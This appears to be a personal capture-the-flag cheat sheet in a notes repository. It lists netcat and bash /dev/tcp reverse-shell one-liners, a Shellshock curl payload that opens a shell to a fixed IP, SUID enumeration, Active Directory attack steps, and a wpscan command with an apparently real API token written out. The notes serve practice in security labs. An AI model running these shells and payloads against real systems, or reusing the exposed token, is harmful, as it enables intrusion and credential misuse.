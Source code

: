 // These are actual notes, and not relevant to the notes app.

# CTF Notes

## Opening a shell
1. Vim : !/bin/bash
2. netcat reverse shell _(see below)_
3. Bash reverse shell
4. Bash shellshock, in cgi and sometimes [ssh](https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)

* list binaries with SUID bit set:

      find / -perm -u=s -type f 2>/dev/null
      
* list files owned by an account:

      find / -user <username> 2>/dev/null

#### Netcat reverse shell
On the target machine shell : `nc <host> <any port> -e /bin/bash`

On your machine: `nc -lvp <port no>`

#### Bash reverse shell

      bash -i >& /dev/tcp/<ip>/4444 0>&1
#### Bash shellshock

Test if vulnerable:

    curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://<ip>/cgi-bin/test/test.cgi
To get shell: (do `nc -lvp 443` on your machine first)

    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://<ip>/cgi-bin/test/test.cgi

## Wordpress
      wpscan --api-token 2XiA11eRs5ryfHlZ2sX4wQuNWsdME48fpvxt9nlsnfs --url <url>


# Windows

1. Active Directory

## Active Directory

1. Username enumeration : enum4linux or  `nullinux -a`
2. GetNPUsers.py can retrieve password hashes if usernames are known and “UF_DONT_REQUIRE_PREAUTH” is set
3. With creds, can use evil-winrm if Windows Remote Management is enabled (usually port 5985)

###### TODO : What's Bloodhound (for privesc, apparently) and how do you use it?
